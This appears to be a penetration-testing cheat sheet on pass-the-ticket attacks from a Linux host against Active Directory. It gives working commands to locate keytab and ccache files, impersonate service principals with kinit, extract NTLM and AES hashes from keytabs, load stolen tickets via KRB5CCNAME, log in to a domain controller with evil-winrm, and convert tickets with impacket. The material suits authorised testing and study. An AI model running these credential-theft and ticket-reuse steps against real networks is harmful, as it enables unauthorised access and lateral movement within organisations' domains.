 -- -
PtT attack from a Linux host. Note that a Linux system does not need to be domain joined to use kerberos tickets. It can do so for scripts or network authentication. 
### Check if system is domain joined
Need the tool `realm`
```bash
# use builtin tools
ps -ef | grep -i "winbind\|sssd"

# use specialized tools
realm list
```
### Find Keytab Files
The extension is not required to be `.keytab`, but it usually is based on convention.
```bash
# must have r/w privs to use it
find / -name *keytab* -ls 2>/dev/null
```
### Find ccache file
```bash
ls /tmp 
env | grep -i krb5
```
### Abuse KeyTab File
#### Impersonate User
```bash
# lists out the Service Principal (user) the keytab file is associated with
klist -k -t <path to keytab file> 

# impersonate Service Principal (user)
# case sensitive, so make sure to copy+paste the exact spelling of the user
kinit <principal> -k -t <path to keytab file> 

# only applies to the current session and will not persist unless you save a copy of the ccache file.
```
#### Extract hashes from KeyTab file
```bash
# outputs domain, service principal (user), NTLM hash, AES 256 hash, and AES 128 hash
python3 keytabextract.py <file to keytab file> 
```
From here you can crack the hashes, or use them for pass-the-hash or pass-the-ticket attacks.
#### Importing ccache into current session
allows you to impersonate the Service Principal
```bash
export KRB5CCNAME=<path to ccache file> 
```
*Note: ccache files are temporary so pay attention to the "valid starting" and "expires" dates. If it is expired, this will not work.*
### Misc
#### Use kerberos login w/ evil-winrm
```bash
# you need the package krb5-user
# it will ask you for the domain name and DC hostname during installation
sudo apt-get install krb5-user -y

# if it's already installed, you can put the current domain and DC in the config file directly
sudo vim /etc/krb5.conf

# then funnel it into evil-winrm
evil-winrm -i <dc hostname> -r <domain> 
```
#### Convert ccache to kirbi and vice versa
```bash
# ccache -> kirbi
impacket-ticketConverter <ccache file> <output kirbi file> 

# kirbi -> ccache
impacket-ticketConverter <kirbi file> <output ccache file> 
```